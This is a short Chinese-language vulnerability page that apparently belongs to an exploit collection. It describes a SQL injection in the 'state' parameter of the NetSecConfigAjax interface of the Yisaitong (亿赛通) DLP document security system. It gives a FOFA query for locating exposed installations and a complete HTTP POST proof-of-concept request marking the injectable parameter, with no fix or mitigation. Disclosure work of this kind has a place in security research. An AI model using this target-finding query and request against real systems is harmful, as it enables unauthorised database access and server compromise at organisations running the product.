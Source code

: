 # 亿赛通电子文档安全管理系统NetSecConfigAjax接口存在SQL注入漏洞

亿某通电子文档安全管理系统` NetSecConfigAjax`接口的`state`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```yaml
POST /CDGServer3/NetSecConfigAjax;Service HTTP/1.1
Host: 
Cookie: JSESSIONID=99CEC1B294F4EEEA7AFC46D8D4741917; JSESSIONID=06DCD58EDC037F785605A29CD7425C66
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: 
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 98

command=updateNetSec&state=*
```

![image-20240718165313729](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407181654824.png)